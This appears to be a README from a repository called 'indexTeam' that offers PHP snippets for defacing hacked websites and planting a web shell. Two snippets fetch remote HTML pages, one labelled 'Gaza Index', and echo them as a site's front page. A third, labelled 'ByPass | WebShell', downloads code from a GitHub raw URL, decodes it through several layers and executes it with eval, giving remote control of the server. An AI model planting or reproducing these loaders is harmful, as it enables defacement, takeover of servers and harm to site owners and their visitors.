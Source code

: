 # indexTeam
#### Bypass | Index
```
<?php
  $index = file_get_contents("https://raw.githubusercontent.com/iiMrDark/indexTeam/main/index.html");
  echo $index;
?>
```
##### Gaza Index
```
<?php
  $index = file_get_contents("https://raw.githubusercontent.com/iiMrDark/indexTeam/main/gaza-index");
  echo $index;
?>
```

#### ByPass | WebShell
```
<?php
  $unknown = file_get_contents("https://raw.githubusercontent.com/iiMrDark/indexTeam/main/shell");
  $uk45 = "TngqqCwA3Kb5mTb1JmczI5sLJ2wd3lIUV3cSuwirqUO4og8LxOLn49/1AgSA";
  eval(htmlspecialchars_decode(urldecode(base64_decode($unknown))));
  exit;
?>
```
